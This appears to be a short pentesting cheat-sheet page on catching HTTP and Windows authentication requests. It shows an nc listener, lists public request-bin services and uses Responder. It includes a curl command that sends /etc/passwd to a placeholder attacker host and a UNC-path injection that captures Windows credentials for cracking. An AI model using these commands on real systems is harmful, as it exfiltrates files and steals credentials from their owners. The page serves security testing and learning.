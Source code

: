 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is network accessible, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

Otherwise, we may use online public solutions.
</div><div>

For instance, we can use API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/) <small>(HTTP 🌍)</small>
* [postbin](https://www.toptal.com/developers/postbin/) <small>(HTTP 🌍)</small>
* [ngrok](https://ngrok.com/) <small>(HTTP 🌍 and TCP ⭐, account required 🪦)</small>
* ...

```ps
$ curl http://XXX/xxxxxx -F "data=@/etc/passwd"
```
</div></div>

<hr class="sep-both">

## Additional tools

<div class="row row-cols-lg-2"><div>

#### Responder

[![server_side_attacks](../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) to catch Windows authentication requests.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>
</div></div>
